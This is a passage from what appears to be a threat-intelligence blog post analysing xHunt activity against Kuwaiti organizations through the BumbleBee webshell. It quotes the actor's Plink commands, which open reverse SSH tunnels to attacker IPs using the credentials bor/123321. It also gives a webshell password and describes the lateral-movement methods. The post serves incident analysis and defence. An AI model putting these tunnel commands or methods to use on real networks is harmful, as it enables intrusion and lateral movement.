The commands listed in Table 2 in the Appendix also show the actor using Plink (RTQ.exe) to create an SSH tunnel to an external IP address 192.119.110[.]194, as seen in the following command:
echo y | c:\windows\temp\RTQ.exe 192.119.110[.]194 -C -R 0.0.0.0:8081:<redacted IP #2>:3389 -l bor -pw 123321 -P 443
The IP address overlaps with other related infrastructure that we will discuss in a later section of this blog. Most importantly, the username and password of bor and 123321 used to create the SSH tunnel overlaps directly with prior xHunt activity. These exact credentials were listed within the cheat sheet found within the Sakabota tool, which provided an example command that the actor could use to create SSH tunnels using Plink. We believe the actor used the example command from the cheat sheet as a basis for the commands they used to create the SSH tunnels via BumbleBee.
The actor creates these SSH tunnels to connect to non-internet accessible RDP services on the Windows system, specifically to use RDP to interact with the compromised system and to use Graphical User Interface (GUI) applications. The actor also uses these SSH tunnels to move laterally to other systems on the network, specifically to access internal systems that are not remotely accessible from the internet, as depicted in Figure 2.
Figure 2. Visualization of xHunt actor accessing an internal system from an SSH tunnel created on the internet accessible server hosting BumbleBee.
In addition to analyzing commands executed on the compromised Exchange server, we also analyzed the commands executed on the BumbleBee webshell at an internal IIS web server hosted at one of the two other Kuwaiti organizations. On Sept. 10, 2020, we found that the actor ran several commands to perform network and user account discovery. Additionally, the actor used BumbleBee to upload a second webshell with a filename of cq.aspx. The actor used this second webshell to run a PowerShell script that issued SQL queries to a Microsoft SQL Server database.
The actor first issued a SQL query to check the version of SQL server, followed by the actor issuing two additional queries that were very specific to the web application running on the IIS web server. The PowerShell script used to issue the SQL queries is very similar to scripts that were included in a Microsoft Technet forum post titled Running SQL via PowerShell, which suggests the actor may have used this forum post as a basis for the PowerShell script. We were unable to obtain the second webshell, as the actor deleted it via the BumbleBee webshell when they were finished. Table 3 in the Appendix shows the commands executed via BumbleBee on Sept. 10, 2020.
The logs on the IIS web server hosting the BumbleBee webshell used to issue the commands in Table 3 only included internal IP addresses for the source of the activity. The internal IP addresses suggested this web server was not publicly accessible and did not expose the actor’s source IP address. However, all of the attempts to access BumbleBee and run the commands in Table 3 had 192.119.110[.]194:8083 as the host in the URL of the referrer field within the web server logs. This external IP address in the referrer field suggests that the actor was accessing BumbleBee via an SSH tunnel. The IP address in the referrer field is also the same as in the command issued to create the SSH tunnels for RDP access that we observed on the compromised Exchange server, as shown in Table 2.
File Uploader and SSH Tunnels
During our research, we found a second BumbleBee webshell that was hosted on an internal IIS web server at the initial Kuwaiti organization, as well as on internal IIS web servers at two other Kuwaiti organizations. This BumbleBee webshell had different passwords to view and run commands compared to the first sample we analyzed. The second BumbleBee webshell required the actor to include the password TshuYoOARg3fndI within a URL parameter aptly named parameter. As with the initial BumbleBee sample, we do not know the password the actor must include to be able to run commands on the webshell.
By analyzing artifacts on the internal IIS web server, we were able to determine that on July 16, 2020, the actor ran similar commands to create SSH tunnels using Plink as those seen in Table 2 in the Appendix. We determined the actor executed commands that use the same username and password as seen in the xHunt cheat sheet, but with a different external IP address controlled by the actor, as in the following:
1.exe 142.11.211[.]79 -C -R 0.0.0.0:8080:10.x.x.x:80 -l bor -pw 123321 -P 443
SVROOT.exe 142.11.211[.]79 -C -R 0.0.0.0:8081:10.x.x.x:80 -l bor -pw 123321 -P 443
These commands differ from those used to create the SSH tunnel on the compromised Exchange server that allowed the actor to connect to the server using RDP over TCP port 3389. The commands above attempt to create a tunnel to allow the actor to access web servers hosted at other internal servers over TCP port 80. We believe the actor used these SSH tunnels to gain access to web servers on other internal networks with hopes of finding similar file uploading functionality on those servers. If found, we believe the actor would use the file uploading functionality to upload a webshell to compromise the remote server for lateral movement.
We checked the IIS logs that contained BumbleBee webshell activity and found three external IP addresses within the URLs of the referrer field of inbound HTTP requests. The presence of these IP addresses in the referrer field suggests that the actor used the SSH tunnels to access the web servers by including the following IP and TCP ports in the URL field of their browser:
142.11.211[.]79:8080